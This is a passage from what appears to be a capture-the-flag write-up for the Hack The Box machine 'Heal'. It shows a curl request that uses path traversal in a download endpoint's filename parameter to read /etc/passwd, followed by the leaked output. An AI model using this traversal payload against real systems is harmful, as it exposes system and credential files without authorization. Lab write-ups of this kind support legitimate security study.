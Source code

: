 <figure><img src="../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

```bash
curl 'http://api.heal.htb/download?filename=../../../../../../../../../etc/passwd' \
  -H 'Accept: application/json, text/plain, */*' \
  -H 'Accept-Language: en-GB,en-US;q=0.9,en;q=0.8' \                                                      
  -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoyfQ.73dLFyR_K1A7yY9uDP6xu7H1p_c7DlFQEoN1g-LFFMQ' \
  -H 'Connection: keep-alive' \
  -H 'Origin: http://heal.htb' \
  -H 'Referer: http://heal.htb/' \                                                                         
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36' \
  --insecure

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin

<SNIP>
```

You can copy the command as cURL command from dev tools network tab.

I've played around this a bit, but nothing important files comes with this right now, \
I moved to another vector.

<figure><img src="../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>
